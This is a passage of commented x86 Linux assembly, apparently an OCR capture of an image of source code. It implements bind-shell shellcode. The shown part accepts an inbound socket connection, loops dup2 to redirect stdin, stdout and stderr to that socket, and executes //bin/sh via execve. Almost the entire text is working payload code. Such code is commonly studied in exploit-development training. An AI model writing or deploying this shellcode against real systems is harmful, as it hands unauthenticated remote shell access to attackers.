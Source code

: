 ```c

       push esi        ; push the value 0 as the backlog
       push edi        ; push the file descriptors
       mov ecx, esp    ; ecx hold the args array for the syscall
       int 0x80        ; init syscall

; Accept inbound connection request

       mov al, 0x66
       inc bl          ; ebx value is not 5, (SYS_ACCEPT)
       push esi        ; push NULL as the addrlen
       push esi        ; push NULL as the sockaddr structure
       push edi        ; push the file descriptor
       mov ecx, esp    ; ecx hold the args array for the syscall
       int 0x80        ; init syscall

; Redirect the file descriptors using dup2

       xchg ebx, eax   ; Moving the file descriptor to ebx
       xor ecx, ecx    ; clearing ecx before using the loop
       mov cl, 0x2     ; setting the loop counter

looper:
       mov al, 0x3F    ; inserting the hex SYS_DUP2 syscall
       int 0x80        ; syscall
       dec ecx         ; the argument for file descriptor(2-stderr,1-stdout,0-stdin)
       jns looper

; Execute /bin/sh with execve

       xor eax, eax
       push eax

       ; PUSH //bin/sh (8 bytes)

       push 0x68732f2f
       push 0x6e69622f

       mov ebx, esp

       push eax
       mov edx, esp

       push ebx
       mov ecx, esp


       mov al, 0xB     ; inserting the hex for SYS_EXECVE Syscall
       int 0x80
```

